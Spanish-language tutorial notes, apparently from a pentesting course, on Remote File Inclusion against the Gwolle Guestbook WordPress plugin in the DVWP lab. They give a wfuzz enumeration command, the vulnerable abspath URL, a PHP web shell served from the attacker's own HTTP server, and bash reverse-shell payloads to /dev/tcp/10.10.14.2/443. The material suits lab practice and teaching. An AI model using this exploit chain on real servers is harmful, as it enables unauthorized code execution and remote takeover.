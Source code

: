# Remote File Inclusión (RFI)

Tags: #RFI #OWASP #Explotacion 

La vulnerabilidad **Remote File Inclusion** (**RFI**) es una vulnerabilidad de seguridad en la que un atacante puede **incluir** **archivos remotos** en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema.

En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando para practicar esta vulnerabilidad:

-   **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Asimismo, se os comparte el enlace directo para la descarga del plugin ‘**Gwolle Guestbook**‘ de WordPress:

-   **Gwolle Guestbook**: [https://es.wordpress.org/plugins/gwolle-gb/](https://es.wordpress.org/plugins/gwolle-gb/)


## Código 

Para descubrir si tiene el Plugin de **gwolle-gb** 
```bash
❯ wfuzz -c --hc=404 -t 200 -w wp-plugins.fuzz.txt http://❮IP❯/FUZZ

	# hc -> HideCode 404
	# c -> Formato colorido
	# w -> Ruta del diccionario
	# FUZZ -> Donde va a insertar las palabras el diccionario
	# t -> Lanzar tareas en paralelo al mismo tiempo
```
**Nota**: El PHP de la victima debe de tener '**allow_url_include = 'ON'**', de lo contrario no va a funcionar
Podemos explotar la vulnerabilidad agregando desde '/wp-content/' esto a la url de la pagina web:
```bash
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/    # Colocamos nuestra IP y lo que hara ese comando es intentar cargar un archivo 'GET /wp-load.php HTTP/1.0'
```

Debemos de tener activo un servidor http en nuestra maquina de atacante 
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80
```

Por lo que debemos de crear ese archivo para cargar comandos y también podemos colocarle una ReverShell.
```php
❯ nvim wp-load.php
	<?php
		system("whoami");
	?>

	// hostname -I
```

O podemos controlar el comando
```php
❯ nvim wp-load.php
	<?php
		system($_GET["cmd"]);
	?>
```

En la url al final debemos de colocar: **&cmd='comando'**
```bash
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=whoami
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
❯ http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.68.11/&cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261"     # -> La manera correcta que es url-encodeado
```